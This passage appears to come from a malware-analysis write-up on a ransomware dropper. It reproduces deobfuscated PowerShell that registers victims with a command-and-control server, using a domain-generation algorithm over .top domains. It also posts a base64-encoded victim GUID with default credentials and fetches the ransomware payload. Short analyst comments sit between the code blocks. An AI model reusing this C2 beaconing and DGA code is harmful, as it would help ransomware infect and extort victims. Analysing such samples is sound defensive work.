 <h6>The following functions give the date for creating the timestamp used for stops the current process. The second function stop the process if an exception is throwing on to collect process. The last function sends a call for register action as first and for getting the ransomware on the second time.</h6>

```csharp

function iamwork2() { sc -Path $path_tmp -Value $(Get-Date); }
function cleanup($input)
{
  if($input -match 'OutOfMemoryException')
  {
    ri - Path $path_tmp -Force; #ri -> Remove-Item
    get-process powershell* | stop-process;
    exit;
  };
}

function sendpost2($input)
{
  if(!$myurlpost){ return $false; };
  $netclient = New-Object System.Net.WebClient;
  $netclient.Credentials = [System.Net.CredentialCache]::DefaultCredentials;
  $netclient.Headers.Add("Content-Type", "application/x-www-form-urlencoded");
  $netclient.Encoding = [System.Text.Encoding]::UTF8;
  try
  {
    $rep = $netclient.UploadString($myurlpost,"l="+[Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes(("v=505.8&guid=$rawGUID&" + $input))));
    if(!$pay){ return $false; }
    $refComp, $ParsedRep = $rep.split(",");
    $ref = [Convert]::ToBase64String($cryptokey.ComputeHash([Text.Encoding]::ASCII.GetBytes($ParsedRep)));
    if($ref -eq $refComp){ return ([string][System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($ParsedRep)));}
  }
  catch{ cleanup $_.Exception.Message; };
  return $false;
};
```

<h6>The next block of functionsare for the registration of the victims on the waiting list of the attacker and for the timestramp used for automatically stop the process after 15 minutes. The algorithm for generating the domains uses a list of string in base 64 and the date. These domains seem more like a lure that a real domain.</h6>

```csharp
function SendRegister($datatoc2)
{
  $baseURL = "http://z2uymda1mtk.top/";
  "ge","6h","sp","FT","4H","fW","mP" | %{ $baseURL += ","+"http://"+ ([Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($_+ $(Get-Date -UFormat "%y%m%V"))).toLower()) +".top/"; };
  #$baseurl -> http://z2uymda1mtk.top/,http://z2uymda2mju=.top/,http://nmgymda2mju=.top/,http://c3aymda2mju=.top/,http://rlqymda2mju=.top/,http://negymda2mju=.top/,http://zlcymda2mju=.top/,http://bvaymda2mju=.top/
  $baseURL.split(",") | %{
    if(!$myurlpost){
      $myurlpost = $_ -replace "=", "";
      #["http://z2uymda1mtk.top/","http://z2uymda2mju.top/","http://nmgymda2mju.top/","http://c3aymda2mju.top/","http://rlqymda2mju.top/","http://negymda2mju.top/","http://zlcymda2mju.top/","http://bvaymda2mju.top/"]
      if(!(sendpost2 ($datatoc2 + "&domen=$myurlpost"))){ $myurlpost = $false; };
      Start-Sleep -s 5;
    }
  };
```